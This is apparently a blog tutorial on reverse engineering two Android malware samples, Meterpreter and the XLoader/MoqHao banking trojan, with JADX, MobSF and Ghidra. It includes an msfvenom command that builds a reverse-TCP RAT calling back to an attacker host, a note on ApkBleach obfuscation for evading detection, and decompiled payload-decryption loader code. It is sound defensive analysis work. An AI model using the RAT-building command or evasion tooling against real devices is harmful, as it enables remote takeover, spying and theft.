# Reversing Android Malware

Malware (Malicious Software) is a type of software that causes harm to your digital devices. These digital viruses can spy on your daily lives, steal money, encrypt files or make your system completely inoperable. Back in the day, computers were the main vector of Malware attacks, but that is now changed. A great number of people own a smartphone, but most aren't practicing good security methods. As a result, attackers are targeting smartphones more in today's digital era.

Today we will reverse engineer and uncover secrets of two different malware.

## Preparation

The tools we will be using to analyse the characteristics of malware are ,

* [JADX-gui](https://github.com/skylot/jadx) - Dex to Java decompiler
* [MobSF](https://mobsf.github.io/docs/#/) - MobSF is an automated, all-in-one mobile application (Android/iOS/Windows) for pen-testing, malware analysis, and security assessment framework capable of performing static and dynamic analysis.
* [Ghidra](https://ghidra-sre.org/) - Ghidra is a software reverse engineering (SRE) framework

JADX and MobSF require JRE 8 or above.

Installation methods for ```JADX```,

> Linux [JADX]

```
# Arch Linux

$ sudo pacman -S jadx

# Using Flatpak

$ flatpak install flathub com.github.skylot.jadx

# Debian Based Distro

$ sudo apt install openjdk-11-jdk 
$ wget https://github.com/skylot/jadx/releases/jadx-x.x.x.zip
$ unzip jadx-x.x.x.zip -d jadx
$ cd jadx/bin/

```
> Windows [JADX]

```
Install OpenJDK 11

$ winget install EclipseAdoptium.Temurin.11.JDK

Download the jadx-gui exe from the github releases page

```

Installation methods for ```MobSF```,

> Linux [MobSF]

```
$ sudo apt install python3 python3-dev python3-venv python3-pip build-essential libffi-dev libssl-dev libxml2-dev libxslt1-dev libjpeg8-dev zlib1g-dev wkhtmltopdf openjdk-11-jdk
$ git clone https://github.com/MobSF/Mobile-Security-Framework-MobSF MobSF
$ cd MobSF && bash setup.sh

```

> Windows [MobSF]

```
$ winget install -e --id Microsoft.VisualStudio.2019.BuildTools
$ winget install -e --id Python.Python.3

# Download and Install wkhtmltopdf from https://wkhtmltopdf.org/downloads.html

$ git clone https://github.com/MobSF/Mobile-Security-Framework-MobSF MobSF
$ cd MobSF & setup.bat

```

## Analysis

### Meterpreter Malware

The Meterpreter is a RAT (Remote Access Trojan) type Malware. Once executed on the victim's device, it will grant an attacker complete access to the device. 

Meterpreter can talk to Command & Control (C2) Server using TCP, HTTP, and HTTPS protocols. For more info on Metasploit Android Modules, refer [here](https://www.infosecmatter.com/metasploit-android-modules/).

The below onliner command is used to craft a ```meterpreter RAT``` using ```Metasploit Framework```,

```c
msfvenom -p android/meterpreter/reverse_tcp LHOST=address LPORT=port -o malware.apk
```

The arguments required for successful tunnel creation for the RAT and C2 server are `LHOST : Attacker IP Address (CONTROL SERVER)` and `LPORT : Attacker Port`

<center>

<!--

-->


</center>

First of all, lets understand the structure of an apk file.

<center>

<!--


-->



<a href="https://en.wikipedia.org/wiki/Apk_(file_format)#Package_contents"> Reference : https://en.wikipedia.org/wiki/Apk_(file_format)</a>

</center>

The above image refers the typical structure of a APK file

We will use MobSF to get an overview of the App. This tool saves lots of time when compared to manually analyzing each component of the app, also every piece of information is well documented by the MobSF framework.

<!--


-->



In the permissions tab, we can see the permissions requested by the app. This data is fetched from `AndroidManifest.xml` file.

<!--


-->



Meterpreter asks for many dangerous permissions such as `READ_CALL_LOG`, `READ_SMS`, `READ_CONTACTS` etc. This clearly indicates its a bad application requesting for unauthorized access. MobSF also extracts cleartext IPs and URLs from app source codes and checks them on VirusTotal, with this feature we can see if there exist any Malicious servers. But in our Meterpreter case, the C2 Server IP address is not in plaintext format. As a result, it isn't detected by MobSF.

Now its time to use `Jadx-GUI`. On the left-pane, we can see source code and resources. Currently, I have opened the `AndroidManifest.xml` of the app. We can see the permissions and other pieces of information.

<!--


-->



From the reversed output of the source code from the APK, it can be observed that the APK uses some notable classes:

* `MainActivity`
* `MainBroadcastReciever`
* `MainService`
* `Payload`

The highlighted line in the above screenshot plays a vital role in functioning as RAT. Let's break down that method because it's a ```persistence mechanism```.

An intent is an abstract description of an operation to be performed. It can be used to start an activity, send intents to BroadcastRecievers, etc. In our case, the `BOOT_COMPLETED` intent is received by `MainBroadcastReceiver`.

```xml
<receiver android:label="MainBroadcastReceiver" android:name="com.metasploit.stage.MainBroadcastReceiver">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED"/>
    </intent-filter>
</receiver>
<service android:name="com.metasploit.stage.MainService" android:exported="true"/>
```
Decompiling the `MainBroadcastReceiver` class gives us a better understanding of the persistence mechanism.

<!--


-->



From the ```MainBroadcastReceiver``` it can be observed that the persistence mechanism is dependent on,

* The `MainBroadcastReciever` listen for Broadcast Intents
* If the received intent is `android.intent.action.BOOT_COMPLETED` , receiver starts the `MainService` which is a staged payload

> `BOOT_COMPLETED` intent is sent when the device boot after proper shutdown, and restart isn't affected.

<!--


-->


Now reversing the `Payload` class which is pretty big containing shellcodes for our RAT. We will be decoding our ```LHOST``` value from this class which is converted into other data type.

<!--


-->



Since it is converted into other type we could not find our C2 IP address using search feature. Looking through the code and the first-byte array `a` seems like a converted data type object. The byte data type is an 8-bit signed two's complement integer. It has a minimum value of -128 and a maximum value of 127 (inclusive). The printable characters in ASCII are from 33 to 126. So the byte array may have printable characters.

Decoding few bytes from the array using python to print ASCII characters.

<!--


-->



Awesome, we got the C2 IP from a unpacked/non-obfuscated malware. 

[ApkBleach](https://github.com/graylagx2/ApkBleach) is a python script to pack/obfuscate meterpreter malware which has many features. 

<!--


-->


<!--


-->

It can be observed that the ```ApkBleach``` obfuscates keywords to bypass detection. But this is not enough to overcome smart defenders which are being used in the wild today.



Eventhough we apply some simple obfuscation techniques Defenders and Reverse Engineering techniques are smart enough today to analyse and categorize this malware.

This sums up the static analysis of ```Meterpreter Malware```.

### XLoader/MoqHao Malware

For the second Analysis, I chose [XLoader Malware Sample](https://bazaar.abuse.ch/sample/02c08ec2675abe6e09691419dd1a281194879c6e393de1cdfb150b864378d921/) from MalwareBazaar. This one is entirely different from Meterpreter Malware and tricky to reverse. 

Analysing the malware in ```VirusTotal``` flags it as suspicious

<!--


-->



<!--


-->

Loading our malware into ```MobSF Framework``` to perform static analysis



As you can see, there aren't many methods in this Malware, and it's packed (obfuscated). Even some permissions are obfuscated. Additionally, this Malware comes with a native library `libvga.so` which is under `lib/armeabi-v7a` and a file named `1bmurb1` under `assets/mvmc`, which is the encrypted payload of this Malware. The payload is decrypted on the runtime to evade detection.

<!--


-->



The obfuscated permissions from ```GNuApplication``` are,

```xml
<!-- Obfuscated Permissions -->

<uses-permission android:name="sedv.yfem.nfjzi"/>
<uses-permission android:name="pfoph.ryxrplq.dyek"/>
<uses-permission android:name="rzcad.qkwoooz.ualxq"/>
<uses-permission android:name="bcemr.fjshnci.xfanv"/>
<uses-permission android:name="qrzsznko.gsgeyz.fztiy"/>
<uses-permission android:name="pphnxshu.bhxe.rxgklxny"/>
```
Native libraries are libraries written in C/C++ or other languages. Apps can access native libraries through JNI ( Java Native Interface ) programming Interface. The `native` keyword is used to implement JNI methods. In our sample, The package `s` has the implementation of the native methods.

```java

package s;

/* loaded from: classes.dex */
public class ni {

    public static native Object iz(Class cls);
    public static native void jz(String str, Object[] objArr, String str2);
    public static native String ls(int i);
    public static native Object mz(String str, String str2, int i, boolean z);
    public static native Object oa(String str, Object obj, int i, boolean z, int i2, boolean z2, int i3);
    public static native void ob(Object obj, Object obj2);
    public static native String om(String str, String str2);
    public static native void op(Object obj, Object obj2, Object obj3, long j, boolean z, int i, String str, int i2);
    public static native String oq(Object obj, int i, String str, boolean z);
    public static native Object or(String str, Object obj, int i);
    public static native Object pe(Object obj, int i);
    public static native Object pi(Object obj, Object obj2, int i, boolean z, String str);
    public static native void pq(Object obj, Object obj2, Object obj3, Object obj4, String str, int i, long j, boolean z, int i2, long j2, String str2);
    public static native Object qc(String str, String str2, long j, String str3, int i, boolean z, int i2);
}
``` 
The `GNuApplication` is the main class that interacts with the native library.

```java

package gf6h8y8;

import android.app.Application;
import s.ni;

public class GNuApplication extends Application {
    public Object a;
    public Class b;

    private void a(Object obj) {

        // Create a Class Object from the decrypted payload file
        // ni.ls loads the decrypted payload file with com.Loader and return Loader object
        // ni.oa loads the payload Loader object
        Class cls = (Class) ni.oa(ni.ls(1), obj, 1, true, 0, false, 1);
        this.b = cls;

        // Executes the payload Loader object
        this.a = ni.iz(cls);
    }

    private void b(String str, Object obj) {
        String oq = ni.oq(this, 1, "", true);
        String om = ni.om(oq, "b");
        e(om, obj);
        a(f(0, str, oq, om));
    }

    private void c(Object obj) {
        // ni.pi decrypt the payload file data
        b(obj.toString(), ni.pi(this, obj, 1, false, ""));
    }

    private void d() {
        System.loadLibrary("vg");
        c("mvmc");
    }

    private static Object e(String str, Object obj) {
        // write the decrypted payload data to a file
        return ni.or(str, obj, 0);
    }

    private Object f(int i, String str, String str2, String str3) {
        return ni.mz(str3, ni.om(str2, str).toString(), 1, false);
    }

    @Override // android.app.Application
    public void onCreate() {
        super.onCreate();
        try {
            d();
        } catch (Throwable unused) {
        }
    }
}
```
Breakdown of the above shown code in short context:

* The `System.loadLibrary("vg")` method loads the `libvg.so` native library
* `mvmc` object, which is the name of the asset folder is passed to method `c`
* The `ni.pi` method decrypts the payload file , `ni.ls` load the decrypted payload with `com.Loader`
* `ni.oa` returns Class object after loading the result of `ni.ls`  
* `ni.iz` executes the payload object

We will use ghidra to decompile the native library. This library is flagged as a ```Trojan dropper``` and considered as malicious.

<!--


-->



By checking the native library functions in ghidra, we can see that native methods are defined in the format of `Java_<mangled_class_name>_<mangled_method_name>`. 

The `JNINativeMethod` requires method signatures to handle arguments and return types. It is listed in [Type Signatures](https://docs.oracle.com/javase/7/docs/technotes/guides/jni/spec/types.html) section on JNI docs.

JNI Type Signatures :

* V: void
* Z: boolean
* B: byte
* C: char
* S: short
* I: int
* F: float
* D: double
* L: fully-qualified-class
* [type: type[]
* ( arg-types ) ret-type: method type

<!--


-->

Decompiling the ```Java_s_ni_pi``` function using ```Ghidra```,



We can see the ```AssetManager``` being called in the decompiled code  of ```Java_s_ni_pi``` method shown below. The payload is processed with the following steps.

1. Load the payload to `InputStream`
2. XOR the payload with a key
3. Decompress the XORed payload with `Inflate` Algorithm

```c

void Java_s_ni_pi(int *param_1,undefined4 param_2,_jmethodID *param_3,undefined4 param_4)
{
  
  uVar1 = (**(code **)(*param_1 + 0x84))
  (param_1,uVar1,"getAssets","()Landroid/content/res/AssetManager;");
  p_Var2 = (_jmethodID *)_JNIEnv::CallObjectMethod((_jobject *)param_1,param_3,uVar1);
  uVar1 = (**(code **)(*param_1 + 0x18))(param_1,"android/content/res/AssetManager");
  uVar3 = (**(code **)(*param_1 + 0x84))
  (param_1,uVar1,&DAT_00025df0,"(Ljava/lang/String;)[Ljava/lang/String;");
  uVar1 = (**(code **)(*param_1 + 0x84))
  (param_1,uVar1,&DAT_00025e1d,"(Ljava/lang/String;)Ljava/io/InputStream;");
  uVar3 = _JNIEnv::CallObjectMethod((_jobject *)param_1,p_Var2,uVar3,param_4);
  uVar1 = (**(code **)(*param_1 + 0x18))(param_1,"java/io/InputStream");
  uVar3 = (**(code **)(*param_1 + 0x84))(param_1,uVar1,&DAT_00025e60,"([B)I");
  uVar1 = (**(code **)(*param_1 + 0x84))(param_1,uVar1,"close",&DAT_00025e71);
  uVar6 = (**(code **)(*param_1 + 0x2c0))(param_1,0xc);
  _JNIEnv::CallIntMethod((_jobject *)param_1,p_Var2,uVar3,uVar6);
  (**(code **)(*param_1 + 800))(param_1,uVar6,0,0xc);
  while (iVar7 = _JNIEnv::CallIntMethod((_jobject *)param_1,p_Var2,uVar3,uVar6), -1 < iVar7) {
    iVar8 = (**(code **)(*param_1 + 0x2e0))(param_1,uVar6,0);
    for (iVar11 = 0; iVar11 < iVar7; iVar11 = iVar11 + 1) {
      if (local_bc < local_b8) {

        // THIS IS WHERE XOR HAPPENS
        *local_bc = *(byte *)(iVar8 + iVar11) ^ local_a9;
        local_bc = local_bc + 1;
      }
    }
    (**(code **)(*param_1 + 0x300))(param_1,uVar6,iVar8,0);
  }
  _JNIEnv::CallVoidMethod((_jobject *)param_1,p_Var2,uVar1);
  p_Var9 = (_jobject *)(**(code **)(*param_1 + 0x2c0))(param_1,(int)local_bc - (int)local_c0);
  (**(code **)(*param_1 + 0x340))(param_1,p_Var9,0,(int)local_bc - (int)local_c0);
  p_Var2 = (_jmethodID *)(**(code **)(*param_1 + 0x18))(param_1,"java/io/ByteArrayInputStream");
  uVar10 = (**(code **)(*param_1 + 0x84))(param_1,p_Var2,"<init>","([B)V");
  uVar12 = _JNIEnv::NewObject((_jclass *)param_1,p_Var2,uVar10);
  p_Var2 = (_jmethodID *)
           createInflateStream((_JNIEnv *)param_1,(_jclass *)((ulonglong)uVar12 >> 0x20),
                               (_jobject *)uVar12,p_Var9);
}

```

Decompiling using HexRays IDA Decompiler the decompilation is much clear now. In this output, `v23` is the XOR key where it is retrieved from `v23 = v61[11]`. `v61` is passed to the read method and it holds the encrypted data of the payload file. That means the ```XOR key``` is the ```12th byte``` of the encrypted payload file `1bmurb1`.

```c

char v61[12]; // [sp+2Ch] [bp-ACh] BYREF

v19 = (*(int (__fastcall **)(int, const char *))(*(_DWORD *)v4 + 24))(v4, "java/io/InputStream");
v20 = (*(int (__fastcall **)(int, int, const char *, const char *))(*(_DWORD *)v4 + 132))(v4, v19, "read", "([B)I");
v52 = (*(int (__fastcall **)(int, int, const char *, const char *))(*(_DWORD *)v4 + 132))(v4, v19, "close", "()V");
v21 = (*(int (__fastcall **)(int, int))(*(_DWORD *)v4 + 704))(v4, 12);
v54 = v18;
_JNIEnv::CallIntMethod(v4, v18, v20, v21);
(*(void (__fastcall **)(int, int, _DWORD, int, char *))(*(_DWORD *)v4 + 800))(v4, v21, 0, 12, v61);
v22 = v20;
v23 = v61[11];
for ( i = v22; ; v22 = i )
{
    v26 = _JNIEnv::CallIntMethod(v4, v54, v22, v24);
    if ( v26 < 0 )
      break;
    v27 = (*(int (__fastcall **)(int, int, _DWORD))(*(_DWORD *)v4 + 736))(v4, v24, 0);
    v29 = v4;
    v30 = v27;
    for ( j = 0; j < v26; ++j )
    {
      v32 = *(_BYTE *)(v30 + j) ^ v23; // local_a9 in Ghidra
      v57 = v32;
      if ( (unsigned int)v59 >= v60 )
        std::vector<signed char>::__push_back_slow_path<signed char>((int)&v58, &v57, v60, v28);
      else
        *v59++ = v32;
}
```

With the help of [Cryptax](https://cryptax.medium.com/)'s [MoqHaoUnpacker](https://github.com/cryptax/misc-code/blob/master/MoqHaoUnpacker.java), I was able to decrypt the payload. The decrypted payload is a ```dex``` file.

<!--


-->

Loading the decrypted DEX file in ```jadx-GUI``` to view the payload


<!--


-->


We have successfully decrypted the payload file and we can see the decompilation of payload file is pretty tricky. 

Here is the summary of the XLoader Malware:

> The XLoader/MoqHao Malware is a banking Trojan which mainly targets Japanese and South Korean Android Users. It has many features like sending and receiving SMS, changing audio ringer settings, installing malicious apps, spying on user activities and device status, etc. Our sample was targeting users of japaneses banks like `Sumitomo Mitsui Banking Corporation`.

Always keep your device up to date and never install apps from third-party sites, this will reduce the chance of installing malware. Nowadays, Google Playstore has become an attack vector to spread malware, so cautiously install apps from Playstore either. 

### References

[Unpacking the Packed Unpacker: Reverse Engineering an Android Anti-Analysis Native Library - by Maddie Stone](https://www.youtube.com/watch?v=s0Tqi7fuOSU)

[Azeria Labs - ARM Assembly Basics](https://azeria-labs.com/writing-arm-assembly-part-1/)